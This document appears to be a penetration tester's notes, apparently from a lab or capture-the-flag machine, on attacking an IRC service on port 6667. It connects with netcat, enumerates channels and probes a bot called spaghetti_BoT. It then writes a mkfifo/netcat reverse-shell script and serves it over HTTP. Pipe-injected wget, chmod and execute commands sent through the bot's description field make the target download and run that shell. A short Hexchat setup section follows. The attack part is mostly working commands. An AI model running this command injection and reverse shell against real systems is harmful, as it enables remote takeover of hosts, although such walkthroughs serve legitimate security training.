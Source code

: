 ```bash - kali
nc -nvv $TARGET 6667
```
If getting disconnects with this method, try [[Port 6667 - IRC#Hexchat]].
```bash - kali
nick kali
```
```bash - kali
user kali 8 * kali
```
```bash - kali
list
```
```bash - kali
join #mailAssistant
```
```bash - kali
privmsg spaghetti_BoT !command
```
```bash - kali
privmsg spaghetti_BoT !about
```
Shelly.sh
```bash - kali
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```
```bash - kali
python3 -m http.server 80
```
![[1._rlwrap]]
```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |wget $KALI:80/Shelly.sh
```
```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |chmod +x Shelly.sh
```
```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |./Shelly.sh
```
#### Hexchat
```bash - kali
sudo apt-get install hexchat
```
Add > Edit
![[Pasted image 20220320171011.png]]
Once connected, go to Server > Channel list.
Enter a wildcard i the search bar and hit search.
* May have to decrease the "channels with" value to 1.
![[Pasted image 20220320171419.png]]